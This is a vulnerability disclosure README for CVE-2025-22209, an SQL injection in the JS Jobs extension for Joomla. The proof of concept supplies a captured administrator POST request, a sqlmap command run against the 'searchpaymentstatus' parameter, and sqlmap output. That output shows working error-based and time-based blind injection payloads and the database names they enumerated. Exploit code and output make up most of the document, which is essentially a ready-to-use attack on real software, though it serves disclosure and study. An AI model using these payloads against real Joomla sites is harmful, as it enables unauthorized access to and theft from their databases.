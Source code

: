 # CVE-2025-22209: JS Jobs SQL injection vulnerability

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22209

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.1.5-1.4.3 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands via the 'searchpaymentstatus' parameter in the Employer Payment History search feature.

## POC
To exploit this vulnerability go to 'Dashboard >> Payments >> Employer History >> Employer Payment History >> Title: test >> Employee Name: test >> Price: test >> Search' and capture the search request. Save the request to a file (req.txt) and run sqlmap through the file to exploit the vulnerable parameter (searchpaymentstatus).

![Alt text](https://i.imgur.com/Q9jKF5K.png)

**HTTP Request:**
```
POST /administrator/index.php HTTP/1.1
Host: localhost:8080
Content-Length: 209
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; 3fe7c6c5dfe0b5f6afb4c9fb2fa76e2d=68e067f4856a257ca2442db063e4bcc1; fc10f92369cf23c8bddb3e364e3c0e59=3e7941ea2adf0d5092218a8dd72872e1
Connection: keep-alive

searchtitle=test&searchempname=test&searchprice=test&searchpaymentstatus=&searchdatestart=&searchdateend=&option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory&task=&boxchecked=0
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap/sqlmap.py -r ~/req.txt --batch --dbs

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: searchpaymentstatus (POST)
    Type: error-based
    Title: MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)
    Payload: searchtitle=test&searchempname=test&searchprice=test&searchpaymentstatus=GTID_SUBSET(CONCAT(0x7178767a71,(SELECT (ELT(3784=3784,1))),0x7176706b71),3784)&searchdatestart=&searchdateend=&option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory&task=&boxchecked=0

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: searchtitle=test&searchempname=test&searchprice=test&searchpaymentstatus=(SELECT 2450 FROM (SELECT(SLEEP(5)))mdKf)&searchdatestart=&searchdateend=&option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory&task=&boxchecked=0
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```

